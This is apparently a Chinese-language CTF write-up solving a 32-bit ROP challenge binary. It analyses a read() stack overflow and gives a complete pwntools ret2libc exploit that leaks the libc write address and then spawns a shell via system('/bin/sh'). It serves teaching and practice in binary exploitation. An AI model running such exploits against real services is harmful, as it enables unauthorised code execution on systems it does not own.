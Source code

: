 # 一道简单的`x86 ROP PWN`

### 目标二进制程序checksec:
```
pwn3$ checksec level3 
[*] '/home/pwn/PWN/test/pwn3/level3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

### 另外，题目还给出了动态链接库
```
pwn3$ ldd level3 
	linux-gate.so.1 (0xf7f7f000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7d79000)
	/lib/ld-linux.so.2 (0xf7f80000)
pwn3$ file /lib/i386-linux-gnu/libc.so.6
/lib/i386-linux-gnu/libc.so.6: symbolic link to libc-2.31.so
```

### IDA对程序进行分析:
```
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  write(1, "Input:\n", 7u);
  return read(0, buf, 0x100u);
}
```

### 书写exp前段部分
```
#!/bin/python3

from pwn import *

context(log_level='debug',arch='i386',os='linux')

io=process('./level3')
elf=ELF('./level3')
libc=ELF('/lib/i386-linux-gnu/libc-2.31.so')
```

## 程序利用思路

IDA的分析结果给出了缓冲区的大小，以及调用了write和read函数

read处存在缓冲区溢出，但是由于程序的保护措施，需要进行ROP

而在程序中并不直接存在可利用的代码片段

因此需要在libc中寻找

由于目标程序调用了write函数，可以ret2plt调用write泄露远程地址

这里直接利用write函数泄露远程的write函数本身的地址

在完成溢出并根据传递给write函数的参数成功泄露出远程地址后，还需要再跳转到漏洞函数本身

由此就可以再次完成对程序控制流的劫持，也就是说能够反复进行溢出

于是，根据`x86架构`的传参方式，第一次溢出的payload应该书写为
```
溢出偏移量 + write函数plt地址 + 漏洞函数地址 + 1 + write的got表地址 + 4
```

得到返回的write地址之后，构造第二次溢出的payload
首先使用write地址减去在符号表中write的地址，就可以得到libc的基地址
有了libc的基地址，就可以求出system函数的地址和`/bin/sh`的地址

最终构造第二次溢出payload为
```
溢出偏移量+system函数地址+4字节垃圾数据+/bin/sh地址
```

最终进行溢出，getshell

## 完整exp：
```
#!/bin/python3

from pwn import *

context(log_level='debug',arch='i386',os='linux')

io=process('./level3')
elf=ELF('./level3')
libc=ELF('/lib/i386-linux-gnu/libc-2.31.so')

payload=cyclic(0x88+4)+p32(elf.plt['write'])
payload+=p32(elf.symbols['vulnerable_function'])
payload+=p32(1)+p32(elf.got['write'])+p32(4)
io.recvuntil(b'Input:\n')
io.sendline(payload)
write_addr=u32(io.recv(4))

libc_base=write_addr-libc.symbols['write']
system_addr=libc_base+libc.symbols['system']
bin_sh=libc_base+next(libc.search(b'/bin/sh'))
payload=cyclic(0x88+4)+p32(system_addr)+b'BBBB'+p32(bin_sh)
io.sendline(payload)
io.recvline()
io.interactive()
```

